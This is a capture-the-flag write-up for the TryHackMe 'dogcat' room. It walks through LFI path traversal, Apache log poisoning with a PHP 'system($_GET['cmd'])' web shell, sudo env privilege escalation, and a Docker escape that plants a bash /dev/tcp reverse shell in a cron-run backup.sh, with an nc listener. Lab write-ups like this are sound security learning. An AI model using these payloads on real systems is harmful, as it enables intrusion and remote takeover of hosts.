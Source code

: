 # dogcat Writeup
https://tryhackme.com/room/dogcat


## Flag 1

First I navigate to the website running on the endpoint. The hint led me to believe that messing around with the view parameter was a good place to start. After trying different things it became obvious that they were filtering for the words cat or dog. The trick I used to get around this was:
```
?view=./dog/../../../../../../../SOME FILE
```
This is the source code filtering the requests.
* It checks for '.php' extension and adds it if missing
* It checks if view parameter includes either cat or dog
```
    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
```

After doing some research and manual checking of common files I came acrossed access.log.
```
?view=./dog/../../../../../../../var/log/apache2/access.log&ext
```
* Include the 'ext' so that it won't add the php extension to the end.

The access.log included ip, time, request, and user-agent information. I sent a modified request where I made the user-agent = `<?php system($_GET['cmd']);?>` This way when we navigate to access.log we can pass in a parameter 'cmd' which will execute commands on the system.

```?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=whoami```


I found a great blog post about log poisoning on apache servers with LFI [here](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/). I used the same metasploit module as well.

[alt text](https://github.com/[nickswink]/[Dogcat-Writeup]/metasploit.png?raw=true)

* After this we drop in as user www-data and the first flag is in our current directory. 





## Flag 2

The second flag was pretty easy to find which was just a directory up.






## Flag 3 

The flag was in the root directory which we need root permissions for. After some quick manual enumeration I found that we are able to run /usr/bin/env without a password.

```
sudo -l 
Matching Defaults entries for www-data on 5d7fb280ac0c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 5d7fb280ac0c:
    (root) NOPASSWD: /usr/bin/env
```
A quick visit to [GTFOBins](https://gtfobins.github.io/gtfobins/env/) and we can run `sudo env /bin/sh` and Boom! We are root! Navigate to /root to read flag3.txt





## Flag 4

Honestly I had no idea how to get flag 4. You need to escape the docker container that you are in which was a new concept for me.

Navigate to /opt/backups

```
echo "#!/bin/bash" > backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/<YOUR-IP>/1234 0>&1'" >> backup.sh
```

On attacker machine:
```
nc -lnvp 1234
```

backup.sh runs frequently on the parent machine and will send you a priviledged parent shell when it does and the last flag is right there.
